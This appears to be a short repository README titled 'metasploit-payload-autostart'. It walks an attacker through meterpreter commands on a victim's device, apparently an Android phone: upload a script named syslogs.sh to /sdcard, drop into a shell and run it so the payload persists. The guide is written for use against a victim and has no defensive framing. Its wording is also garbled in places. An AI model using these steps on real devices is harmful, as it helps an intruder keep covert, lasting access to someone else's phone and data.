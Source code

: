 # metasploit-payload-autostart

UPLOADING PERSISTENT SCRIPT AND EXECUTING) 

Now when you get meterpreter session of your victim device to follow the below steps to upload persistent script and to make payload persistent on the victim device.

Ex :-

meterpreter> upload /sdcard/syslogs.sh  /sdcard

(Nowhere the persistent script will be uploaded to your victim's device internal storage)

meterpreter> cd /sdcard

meterpreter> ls

meterpreter> shell

meterpreter> ls

(Nowhere your victim's internal storage will be shown so here check if Syslogs.sh file is present or not if not then repeat the step1. if it is present then you can follow below step)

meterpreter> sh syslogs.sh

(Nowhere the process of persistent activity takes 10 Minutes after ten minutes you can exit from the process)
